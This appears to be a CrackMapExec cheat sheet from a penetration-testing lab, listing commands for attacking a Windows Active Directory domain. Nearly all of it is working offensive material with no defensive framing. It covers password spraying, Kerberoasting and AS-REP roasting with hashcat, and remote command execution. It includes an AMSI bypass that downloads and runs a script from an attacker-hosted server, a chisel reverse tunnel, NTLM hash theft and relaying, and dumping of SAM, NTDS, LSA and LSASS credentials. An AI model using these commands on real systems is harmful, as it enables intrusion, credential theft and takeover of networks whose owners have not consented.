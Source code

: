 
---

> Gathering Information Anonymously

```bash
# Basic SMB Recon
crackmapexec smb 192.168.133.0/24
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

# Exploiting NULL/Anonymous Sessions
crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol
crackmapexec smb 10.129.203.121  -u '' -p '' --users --export $(pwd)/users.txt
sed -i "s/'/\"/g" users.txt
jq -r '.[]' users.txt > userslist.txt
crackmapexec smb 10.129.204.172  -u '' -p '' --rid-brute
crackmapexec smb 10.129.203.121 -u '' -p '' --shares
crackmapexec smb 10.129.203.121 -u guest -p '' --shares

# Password Spraying
crackmapexec smb 10.129.203.121 -u users.txt -p Inlanefreight01! --continue-on-success --no-bruteforce
crackmapexec smb 192.168.133.157 -u Administrator -p Password@123 --local-auth
crackmapexec smb 10.129.203.121 --users -u grace -p Inlanefreight01!
crackmapexec winrm 10.129.203.121 -u userfound.txt -p passfound.txt --no-bruteforce
crackmapexec ldap dc01.inlanefreight.htb -u julio grace -p Inlanefreight01!
crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! # domain
crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! --local-auth

# Finding ASREPRoastable Accounts
crackmapexec ldap dc01.inlanefreight.htb -u users.txt -p '' --asreproast asreproast.out
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! --asreproast asreproast.out
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt # reminder
```

> Gathering Information with an account

```bash
# Searching for Accounts in Group Policy Objects
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_password
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_autologin

# Working with Modules
crackmapexec ldap -L
crackmapexec ldap -M user-desc --options
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M user-desc
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M user-desc -o KEYWORDS=pwd,admin

# MSSQL Enumeration and Attacks
crackmapexec mssql 10.129.203.121 -u grace -p Inlanefreight01! -q "SELECT name FROM master.dbo.sysdatabases" (--local-auth)
crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from core_app.INFORMATION_SCHEMA.TABLES"
crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from [core_app].[dbo].tbl_users"
crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -x whoami
crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --put-file /etc/passwd C:/Users/Public/passwd
crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --get-file C:/Windows/System32/drivers/etc/hosts hosts
crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv
crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=privesc
crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=rollback

# Finding Kerberoastable Accounts
crackmapexec ldap dc01.inlanefreight.htb -u grace -p 'Inlanefreight01!' --kerberoasting kerberoasting.out
hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt # reminder

# Spidering and Finding Information in an SMB Share
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --shares
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --spider IT (--pattern txt)
(--regex .) (--content --regex Encrypt)
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --share IT (--get-file Creds.txt Creds.txt) (--put-file /etc/passwd passwd)
crackmapexec smb 10.129.203.121 -u grace -p 'Inlanefreight01!' -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL READ_ONLY=false

# Proxychains with CME
crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks"
chisel server --reverse
proxychains crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --shares
crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! -X "Stop-Process -Name chisel -Force"

# Stealing Hashes
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o SERVER=10.10.14.33 NAME=important
crackmapexec smb 172.16.1.0/24 --gen-relay-list relay.txt # list smb signing disabled
ntlmrelayx.py -tf relay.txt -smb2support --no-http
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M drop-sc -o URL=\\\\10.10.14.33\\secret SHARE=IT-Tools FILENAME=secret # other way
```

>  **Gathering Information with an Administrator Account**

|                                                            |                                                                                 |
| ---------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **Command**                                                | **Description**                                                                 |
| `crackmapexec smb <target> -u <u> -p <p> --loggedon-users` | Enumerate logged users on the target                                            |
| `crackmapexec smb <target> -u <u> -p <p> --sessions`       | Enumerate active sessions on the target                                         |
| `crackmapexec smb <target> -u <u> -p <p> --disks`          | Enumerate disks on the target                                                   |
| `crackmapexec smb <target> -u <u> -p <p> --computers`      | Enumerate computer on the target domain                                         |
| `crackmapexec smb <target> -u <u> -p <p> --wmi`            | Issues the specified WMI query                                                  |
| `crackmapexec smb <target> -u <u> -p <p> --wmi-namespace`  | WMI Namespace (default: root\cimv2)                                             |
| `crackmapexec smb <target> -u <u> -p <p> --rid-brute`      | Enumerate users by bruteforcing the RID on the target                           |
| `crackmapexec smb <target> -u <u> -p <p> --local-groups`   | Enumerate local groups, if a group is specified then its members are enumerated |
| `crackmapexec smb <target> -u <u> -p <p> --shares`         | Enumerate permissions on all shares of the target                               |
| `crackmapexec smb <target> -u <u> -p <p> --users`          | Enumerate domain users on the target                                            |
| `crackmapexec smb <target> -u <u> -p <p> --groups <group>` | Enumerate domain groups on the target                                           |
| `crackmapexec smb <target> -u <u> -p <p> --pass-pol`       | Password policy of the domain                                                   |

> **LDAP and RDP Enumeration**

|                                                                     |                                                                      |
| ------------------------------------------------------------------- | -------------------------------------------------------------------- |
| **Command**                                                         | **Description**                                                      |
| `crackmapexec ldap <target> -u <u> -p <p> --users`                  | Enumerate enabled domain users                                       |
| `crackmapexec ldap <target> -u <u> -p <p> --groups`                 | Enumerate domain groups                                              |
| `crackmapexec ldap <target> -u <u> -p <p> --password-not-required`  | Get the list of users with flag PASSWD_NOTREQD                       |
| `crackmapexec ldap <target> -u <u> -p <p> --trusted-for-delegation` | Get the list of users and computers with flag TRUSTED_FOR_DELEGATION |
| `crackmapexec ldap <target> -u <u> -p <p> --admin-count`            | Get objets that had the value adminCount=1                           |
| `crackmapexec ldap <target> -u <u> -p <p> --get-sid`                | Get domain sid                                                       |
| `crackmapexec ldap <target> -u <u> -p <p> --gmsa`                   | Enumerate GMSA passwords                                             |
| `crackmapexec rdp <target> -u <u> -p <p> --nla-screenshot`          | Screenshot RDP login prompt if NLA is disabled                       |
| `crackmapexec rdp <target> -u <u> -p <p> --screenshot`              | Screenshot RDP if connection success                                 |
| `crackmapexec rdp <target> -u <u> -p <p> --screentime SCREENTIME`   | Time to wait for desktop image                                       |
| `crackmapexec rdp <target> -u <u> -p <p> --res RES`                 | Resolution in "WIDTHxHEIGHT" format. Default: "1024x768"             |

---

> Command Execution

```bash
# Command Execution
crackmapexec smb 10.129.204.133 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "net localgroup administrators"
crackmapexec smb 10.129.204.133 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "reg add HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
crackmapexec smb 10.129.204.133 -u localadmin -p Password99! --local-auth -x whoami
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' --exec-method (smbexec / wmiexec) -x whoami
crackmapexec winrm 10.129.204.133 -u robert -p 'Inlanefreight01!' -x whoami
crackmapexec ssh 10.129.204.133 -u robert -p 'Inlanefreight01!' -x ipconfig
crackmapexec ssh 10.129.204.133 -u julio --key-file id_ed25519 -p "" -x whoami

# AMSI Bypass
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/shantanukhande-amsi.ps1 -q
echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.33/shantanukhande-amsi.ps1');" > amsibypass.txt
sudo python3 -m http.server 80
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -X '$PSVersionTable' --amsi-bypass amsibypass.txt

# Finding Secrets and Using Them
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight' --sam
crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight' --ntds (--user x) (--enabled)
crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight' --laps
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight' --lsa
cat /home/plaintext/.cme/logs/file.cached| cut -d ":" -f 2
hashcat -m 2100 hashes.txt /usr/share/wordlists/rockyou.txt
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M lsassy
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M procdump
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M handlekatz
crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M nanodump
```

---

> CrackMapExec Modules


```bash
# Popular Modules
crackmapexec ldap dc01.inlanefreight.htb -u julio -p Password1 -M get-network -o ALL=true
crackmapexec ldap dc01.inlanefreight.htb -u robert -p Inlanefreight01! -M laps
crackmapexec ldap dc01.inlanefreight.htb -u robert -p 'Inlanefreight01!' -M maq
crackmapexec ldap dc01.inlanefreight.htb -u '' -p '' -M daclread -o TARGET=grace ACTION=read
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! -M daclread -o TARGET_DN="DC=inlanefreight,DC=htb" ACTION=read RIGHTS=DCSync
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M get_netconnections
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M ioxidresolver
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M keepass_discover
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/julio/AppData/Roaming/KeePass/KeePass.config.xml
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M rdp -o ACTION=enable

# Vulnerability Scan Modules
crackmapexec smb 172.16.10.3 -M Zerologon
crackmapexec smb 172.16.10.3 -M PetitPotam
crackmapexec smb 172.16.10.3 -u carole.holmes -p 'Y3t4n0th3rP4ssw0rd' -M nopac
crackmapexec smb 172.16.10.3 -u carole.holmes -p 'Y3t4n0th3rP4ssw0rd' -M dfscoerce
crackmapexec smb 172.16.10.3 -u carole.holmes -p 'Y3t4n0th3rP4ssw0rd' -M shadowcoerce
crackmapexec smb 172.16.10.3 -M ms17-010
```
